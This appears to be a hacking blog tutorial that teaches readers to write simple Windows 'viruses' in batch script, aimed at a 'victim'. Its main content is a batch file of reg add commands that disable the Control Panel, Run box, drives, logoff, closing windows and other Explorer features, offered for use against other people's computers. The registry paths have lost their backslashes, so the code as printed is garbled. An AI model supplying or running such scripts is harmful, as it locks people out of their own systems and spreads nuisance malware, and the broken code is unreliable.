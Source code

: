 Everyone always want to perform hacking in an easy way. This includes using already built tools & Exploits. Have you wondered that what is the easiest way to create a simple virus for Windows? I did, so I found that simpler things can get a big job done. Today I am going to tell you how to use Batch scripting to create simple but efficient viruses. First a little bit of info about what Batch really is…

Batch File : A batch file is a kind of script file which is created usually using simple text editors. I makes use of Windows CMD commands. It works using command line interpreter & it is usually executed by a shell program ( Command.com or CMD ) These files have  a .bat extension.

If you want to learn it just google it and trust me its worth it. Now let me show you some codes that I have frequently used.

    Mess up the registry : This code can give a hard blow to the registry. This will just kill some resources  in such a way that the victim will get very annoyed.

@echo off

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoControlPanel /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoRun /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoToolbarsOnTaskbar /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoSetTaskBar /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoViewContextMenu /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoTrayContextMenu /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoStartMenuMorePrograms /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoSetFolders /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoSecurityTab /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoLogOff /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoFind /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoDrives /t REG_DWORD /d 03ffffff

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoClose /t REG_DWORD /d 00000001

reg add HKCUSoftwareMicrosoftWindowsCurrentVersionPoliciesExplorer /v NoNetHood /t REG_DWORD /d 00000001
